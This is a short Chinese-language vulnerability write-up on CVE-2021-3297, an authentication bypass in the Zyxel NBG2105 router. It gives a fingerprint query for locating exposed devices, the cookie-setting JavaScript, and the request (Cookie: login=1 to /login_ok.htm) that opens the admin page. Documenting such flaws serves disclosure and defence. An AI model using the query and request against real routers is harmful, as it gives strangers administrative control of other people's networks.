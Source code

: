 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

<a-checkbox checked>Zyxel NBG2105</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ZyXEL-NBG2105"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zyxel-5.png)



其中前端文件 `/js/util_gw.js` 存在前端对 Cookie login参数的校验



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zyxel-6.png)



可以看到检测到 Cookie中的 `login=1` 则跳转 home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



请求如下则会以管理员身份跳转到 `home.htm页面`



```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zyxel-7.png)



## 